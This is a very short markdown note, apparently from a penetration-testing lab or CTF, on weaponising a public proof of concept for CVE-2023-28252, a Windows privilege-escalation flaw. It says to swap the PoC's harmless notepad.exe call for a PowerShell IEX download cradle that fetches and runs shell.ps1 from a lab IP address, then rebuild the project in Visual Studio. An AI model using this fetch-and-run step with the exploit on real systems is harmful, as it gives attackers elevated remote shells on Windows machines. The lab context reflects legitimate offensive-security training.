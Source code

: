 https://github.com/fortra/CVE-2023-28252

Edit with visual studio

```
#change this
system("notepad.exe");

# for this
system("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.104/shell.ps1')");


# build --> release --> build --> Rebuild solution

```